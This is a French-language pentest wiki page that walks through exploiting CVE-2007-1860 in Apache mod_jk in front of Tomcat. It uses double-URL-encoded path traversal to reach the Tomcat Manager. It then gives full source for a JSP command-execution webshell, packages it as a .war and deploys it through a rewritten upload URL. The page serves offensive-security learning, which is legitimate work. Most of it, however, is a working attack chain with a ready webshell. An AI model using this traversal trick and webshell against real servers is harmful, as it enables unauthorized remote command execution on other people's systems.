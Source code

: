 # CVE-2007-1860: mod\_jk

Sur les systèmes Unix/Linux Tomcat ne peut pas être sur le port 80 sauf si on est Root. Cependant pour qu’il soit accessible par la majorité des utilisateurs ils doit disponible sur le port 80 (ou 443 → Https ).

C’est une des raisons pour laquelle les devs utilise un Apache pour “proxy” les requêtes faites sur le port 80.

cette configuration peut être aussi utilisé pour :

* contenu static directement depuis Apache et limité la charge de Tomcat
* Load balance les requêtes entre 2 Tomcats ou plus.

### 1ere Étape : Accès au Manager <a href="#cve-2007-1860-mod_jk-1ereetape-accesaumanager" id="cve-2007-1860-mod_jk-1ereetape-accesaumanager"></a>

Le web Serveur Apache qui utilise mod\_jk et le serveur d’application Tomcat vont procéder a un décodage du chemin fournis par le client.

Pour accéder au Manager nous devrons procéder a un double encodage. C’est la même exploitation qu’une ‘Directory Travesal' afin d’avoir accès a des répertoire qui ne sont pas supposé l'être.

| **Valeur** | **Url encoding** | **Double URL encoding** |
| ---------- | ---------------- | ----------------------- |
| **.**      | %2e              | %252e                   |

Chemin généré : `webapp/%252e%252e/manager/html`

Cette Astuce marche aussi pour d’autres serveurs d’application comme Jboss et Glassphish.

### 2eme Étape : Création d’un Webshell <a href="#cve-2007-1860-mod_jk-2emeetape-creationdunwebshell" id="cve-2007-1860-mod_jk-2emeetape-creationdunwebshell"></a>

Pour écrire un Webshell nous pouvons utiliser JPS ou une Servlet.

```
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

il faudra ensuite créer un .war après avoir mis notre jsp dans un répertoire vide.

```
cd notreRepo
jar -cvf ../notrewar.war *
```

### 3eme Étape : Déploiement du .war <a href="#cve-2007-1860-mod_jk-3emeetape-deploiementdu.war" id="cve-2007-1860-mod_jk-3emeetape-deploiementdu.war"></a>

Si nous essayons de déployer le war nous allons avons en retour une 404.

Le manage ne fais pas de double encode.

Ainsi les solutions qui s’offre a nous sont les suivante :

* Utiliser le DevTools pour modifier l’url a la main
* Modifier la requête avec un proxy

Exemple :

```
<form action="/examples/html/upload;jsessionid=570DCE2CEE80E5886C9BE24CAFA1CCAB?org.apache.catalina.filters.CSRF_NONCE=FF9D941BBB6EB4D7E30F84C5EAC5CC7E" method="post" enctype="multipart/form-data">
```

Deviendrai :

```
<form action="http://vulnerable/examples/jsp/%252e%252e/%252e%252e/manager/html/upload;jsessionid=570DCE2CEE80E5886C9BE24CAFA1CCAB?org.apache.catalina.filters.CSRF_NONCE=FF9D941BBB6EB4D7E30F84C5EAC5CC7E" method="post" enctype="multipart/form-data">
```

\=> il faudra remettre l’url complète et utiliser le tips de Directory Traversal avec le double encodage des points !

### 4eme Étape : Exploitation <a href="#cve-2007-1860-mod_jk-4emeetape-exploitation" id="cve-2007-1860-mod_jk-4emeetape-exploitation"></a>

Pour acceder au endpoint de la meme maniere, nous devons utiliser le Directory Traversal et le double encodage.

Ainsi, pour notre exemple nous aurons :

`http://vulnerable/examples/jsp/%252e%252e/NotreWebshell/`

![](../../.gitbook/assets/2407170681.png)

